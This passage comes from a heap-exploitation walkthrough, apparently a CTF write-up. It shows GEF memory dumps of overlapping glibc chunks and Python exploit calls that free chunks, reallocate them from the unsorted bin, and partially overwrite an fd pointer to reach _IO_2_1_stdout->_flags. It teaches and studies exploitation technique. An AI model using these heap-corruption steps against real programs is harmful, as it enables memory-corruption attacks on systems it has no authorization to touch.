 It shows we have 4 allocated chunks, this shows that the `chunk[1]` and the `chunk[2]` and the `chunk[3]` now is within the `unsorted` bin chunk. It overlaps the chunks contigously laid out. So, now we will `free` the `chunk[1]` and the `chunk[3]`:-

```py
free(1)
free(3)
```

Checking the bins and the heap chunks layout:-


```r
gef➤  x/400xg 0x5623a643c250
0x5623a643c250:	0x0000000000000000	0x0000000000000ad1
0x5623a643c260:	0x00007fda26360ca0	0x00007fda26360ca0
0x5623a643c270:	0x0000000000000000	0x0000000000000000

             [..snip..]

0x5623a643c750:	0x0000000000000500	0x0000000000000070
0x5623a643c760:	0x0000000000000000	0x00005623a643c010
0x5623a643c770:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c780:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c790:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7a0:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7b0:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7c0:	0x0000000000000000	0x0000000000000041
0x5623a643c7d0:	0x6161616161616161	0x0000000000000000
0x5623a643c7e0:	0x0000000000000000	0x0000000000000000
0x5623a643c7f0:	0x0000000000000000	0x0000000000000000
0x5623a643c800:	0x0000000000000000	0x0000000000000021
0x5623a643c810:	0x0000000000000000	0x00005623a643c010
0x5623a643c820:	0xdadadadadadadada	0x0000000000000500
0x5623a643c830:	0xdadadadadadadada	0xdadadadadadadada

             [..snip..]

0x5623a643cd20:	0x0000000000000ad0	0x0000000000000020
0x5623a643cd30:	0x6161616161616161	0x0000000000000000
0x5623a643cd40:	0x0000000000000000	0x00000000000202c1
```

Now, if we do pay attention the `chunk[1]` and the `chunk[3]` which we `free`'d a moment ago is within the chunk we `free`'d with the extended size, resulting in the overlap. Now, we will just allocate a chunk of size `0x4f0` giving the chunk `0x500` from the `unsorted` bin and then again allocating a chunk of size `0x90` and this time, we will get a chunk from the `unsorted` bin, since the given chunk will have it's `fd` and `bk` populated with the `main_arena`, we will attempt to write the last 4 bits of the `fd` address such that it would point to the `_IO_2_1_stdout->flags`:-


```py
add(0x4f0,"a")

# partial overwrite to stdout->_flags

add(0x90,b"\x60\x07",0)
```
